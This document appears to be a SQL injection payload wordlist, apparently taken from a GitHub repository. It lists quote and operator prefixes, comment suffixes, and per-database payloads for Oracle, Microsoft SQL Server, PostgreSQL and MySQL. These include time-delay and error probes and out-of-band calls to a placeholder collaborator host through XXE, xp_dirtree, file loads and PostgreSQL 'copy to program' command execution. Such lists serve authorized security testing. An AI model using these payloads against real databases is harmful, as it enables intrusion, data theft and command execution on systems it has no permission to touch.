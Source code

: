# Global
## Prefix 0
' 
') 
'))  
) 
)) 
" 
\' 
\" 
'' 
"" 
## Prefix 1
AND 
OR 
; 
UNION 
## Full Prefix
;  
## Full Suffix
--
/*
%00
## Payload
1 == 1
'1' == '1
## Full Payload
(SELECT null)
(SELECT 1)
(SELECT 'a')
# Oracle
## Payload
dbms_pipe.receive_message(('a'),10)
TO_CHAR(1/0)
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')
# Microsoft
## Payload
WAITFOR DELAY '0:0:10'
1/0
exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'
# PostgreSQL
## Payload
pg_sleep(10)
1/(SELECT 0)
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'
# MySQL 
## Full Suffix
-- -
## Payload
SLEEP(10)
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'